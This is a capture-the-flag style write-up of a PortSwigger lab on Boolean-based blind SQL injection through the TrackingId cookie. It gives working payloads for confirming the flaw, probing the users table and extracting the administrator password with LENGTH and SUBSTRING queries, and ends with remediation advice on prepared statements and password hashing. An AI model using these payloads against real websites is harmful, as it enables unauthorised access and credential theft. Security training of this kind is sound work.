





# Lab 11: Blind SQL Injection with Conditional Responses

- **Platform:** PortSwigger Web Security Academy
- **Category:** SQL Injection (SQLi)
- **Difficulty:** Practitioner
- **OWASP Top 10:** A03:2021 – Injection
- **CWE:** CWE-89 (Improper Neutralization of Special Elements used in an SQL Command)
- **Author:** Yaseen Khan
- **Date:** November 24, 2026

---

## 1. Objective
Exploit a Boolean-based Blind SQL injection vulnerability in the `TrackingId` cookie by observing conditional changes in the HTTP response (`Welcome back!` banner), enumerate the `administrator` password character-by-character, and log in as `administrator`.

---

## 2. Reconnaissance & Enumeration
- **Target Endpoint:** `GET /filter?category=Accessories`
- **Vulnerable Parameter:** `TrackingId` (HTTP Cookie)
- **Oracle Signal:** When the injected SQL condition evaluates to **True**, the page renders `Welcome back!`. When it evaluates to **False**, `Welcome back!` disappears.

### Step-by-Step Enumeration
1. **Confirm Blind SQLi (`TrackingId` Cookie):**
   - `TrackingId=PMqYbB10Cv40GRpI' and 1=1--` $\rightarrow$ `Welcome back!` appears (**True**).
   - `TrackingId=PMqYbB10Cv40GRpI' and 1=2--` $\rightarrow$ `Welcome back!` disappears (**False**).
2. **Verify `users` Table Exists:**
   - `TrackingId=PMqYbB10Cv40GRpI' and (select 'x' from users LIMIT 1)='x'--` $\rightarrow$ `Welcome back!` appears (**True**).
3. **Verify `administrator` User Exists:**
   - `TrackingId=PMqYbB10Cv40GRpI' and (select username from users WHERE username='administrator')='administrator'--` $\rightarrow$ `Welcome back!` appears (**True**).
4. **Determine Password Length (Burp Repeater & Intruder):**
   - Tested `LENGTH(password)>19` $\rightarrow$ Response length `5600` (`Welcome back!` present — **True**).
   - Tested `LENGTH(password)>20` $\rightarrow$ Response length `5539` (`Welcome back!` absent — **False**).
   - **Result:** The password is exactly **20 characters** long.

---

## 3. Exploitation & Proof of Concept (PoC)
Because Burp Suite Community Edition throttles Intruder speed, a custom Python script (`requests`) was written to automate character-by-character extraction using SQL `SUBSTRING()` across lowercase letters and digits (`a-z`, `0-9`)[cite: 23].

### Payload Logic (Per Character Position)
```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='7'--
```
## Extracted Credentials

Username: administrator   
Password: 7qg7bo6lzy8r5qvcouq9   

Logging in via /login with these credentials granted administrative access and solved the lab.   

## Proof of Exploitation Screenshots

### Proof of Exploitation Screenshots
**1. Confirming Boolean Blind SQLi in `TrackingId` (`1=1`):**


**2. Confirming `users` Table Exists:**


**3. Confirming `administrator` Account Exists:**


**4. Testing Password Length in Burp Repeater (`LENGTH(password)>19`):**


**5. Confirming Exact Length (20 Characters) in Burp Intruder:**


**6. Custom Python Automation Script (`SUBSTRING` Enumeration):**


**7. Terminal Output Extracting Full 20-Character Password:**


**8. Administrative Login & Lab Completion Banner:**

                     
## 4. Impact
Even without visible database errors or UNION output on the webpage, an attacker can infer boolean database responses from subtle HTML changes (Welcome back!) and automate full credential extraction using SUBSTRING() queries.

## 5. Remediation
Primary Fix (Parameterized Queries): Treat cookie values like TrackingId strictly as bound parameters in prepared statements rather than concatenating them into SQL queries:
```
// Secure Java JDBC PreparedStatement Example
PreparedStatement stmt = conn.prepareStatement("SELECT * FROM tracking WHERE id = ?");
stmt.setString(1, trackingIdCookie);
ResultSet rs = stmt.executeQuery();
```
Cryptographic Password Hashing: Store user passwords using strong salted adaptive hashes (Argon2id or bcrypt) so database read exposure does not reveal plaintext credentials.
